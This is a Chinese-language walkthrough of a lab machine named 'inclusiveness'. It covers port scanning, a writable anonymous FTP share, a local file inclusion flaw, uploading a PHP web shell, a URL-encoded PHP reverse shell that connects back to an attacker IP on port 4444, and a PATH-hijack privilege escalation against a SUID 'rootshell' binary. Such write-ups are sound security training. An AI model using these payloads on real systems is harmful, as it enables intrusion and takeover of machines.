# inclusiveness
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/inclusiveness]
└─$ sudo nmap -p- 192.168.146.57                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:29 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:0B:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

└─$ sudo nmap -p21,22,80 -sV -A 192.168.146.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:30 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:CC:0B:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds

```
### FTP信息枚举
在端口枚举的时候看到FTP允许匿名访问, 匿名访问看看有没有什么文件可以下载
```
└─$ ftp 192.168.146.57   
Connected to 192.168.146.57.
220 (vsFTPd 3.0.3)
Name (192.168.146.57:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28415|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> exit
221 Goodbye.

```
看来是没有...
### Web信息枚举
通过dirsearch我们可以看到有一个.robots.txt
```
[19:35:20] 200 -   59B  - /.robots.txt
[19:35:37] 200 -   10KB - /index.html
[19:35:40] 200 -  626B  - /manual/index.html
[19:35:44] 200 -   59B  - /public_html/robots.txt
[19:35:45] 200 -   59B  - /robots.txt
[19:35:45] 200 -   59B  - /robots.txt.dist

```


<br>
但是返回告诉我们不是搜索引擎, 那我们就构造一个搜索引擎的ua
<br>

```
curl -s --user-agent Googlebot http://192.168.146.57/robots.txt   
```

<br>
这里看到一个Disallow的目录
<br>

访问之后当我们切换语言的时候, 会发现后面多了个lang=en.php, 尝试fuzz

<br>
发现确实存在LFI, 直接访问/etc/passwd
<br>

还记得刚开始的时候ftp是可以写入的, 那我们在就本地写一个能够接受cmd的系统函数给靶机


这样我们的shell.php就上去了
<br>
尝试查看一下ftp的目录在哪里, 通常在/etc下, 并且通过nmap我们也知道这个服务名为vsftpd

看到了目录在/var/ftp, 这样我们就能直接访问了

## 突破边界
发送php的反弹shell到靶机
```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.50%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```

<br>
获取到www-data的权限
<br>
查看是否有文件具有suid的权限

<br>
来到这个目录下, 查看到一个rootshell.c的文件, 通过gcc生成了rootshell
<br>


<br>
解读一下这行代码:    
<br>
如果文件以Tomcat的身份通过调用whoami的函数进行了身份认证之后, 可以直接提升权限, 否则将会直接打印当前的用户
<br>
那我们就去/tmp目录下新建一个whoami的文件, 然后伪造自己是tom
```
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ ls
ls
whoami
www-data@inclusiveness:/tmp$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/tmp$ 
```
然后修改系统的路径到/tmp
```
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ 
```

<br>
然后去执行/rootshell
<br>

<br>
提权成功
<br>

